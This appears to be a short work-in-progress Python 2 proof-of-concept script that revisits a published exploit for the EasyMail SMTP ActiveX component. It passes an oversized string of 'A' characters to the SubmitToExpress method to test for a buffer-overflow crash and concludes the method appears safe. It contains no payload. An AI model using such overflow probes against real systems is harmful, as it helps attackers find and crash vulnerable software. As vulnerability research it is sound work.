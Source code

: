 POC
---

    # https://joeyrideout.com/reworking-decade-old-exploit-code/
    # Python 2.7.15 32-bit PoC of https://www.exploit-db.com/exploits/10007/.
    # WIP

    # First, register DLL with Windows regsvr32 (for the brave! Use a VM.)
    # Admin CMD:> regsvr32 .\emsmtp.dll
    # (After, unregister with regsvr32 -u .\emsmtp.dll)


    # Then set up python:
    # Install 32-bit (x86): https://www.python.org/ftp/python/2.7.15/python-2.7.15.msi
    # Then: pip install pywin32
    import win32com.client
    emlib = win32com.client.Dispatch("EasyMail.SMTP")

    # Exploit calls for >99999 chars passed to SubmitToExpress method
    aaa = "A"*199999
    assert(10 == emlib.SubmitToExpress(aaa))  # Returns INT(10) if safe? (no crash)
    assert(10 == emlib.SubmitToExpress(aaa*100))  # Why not more?

    print "Done. EasyMail SMTP SubmitToExpress appears to be safe."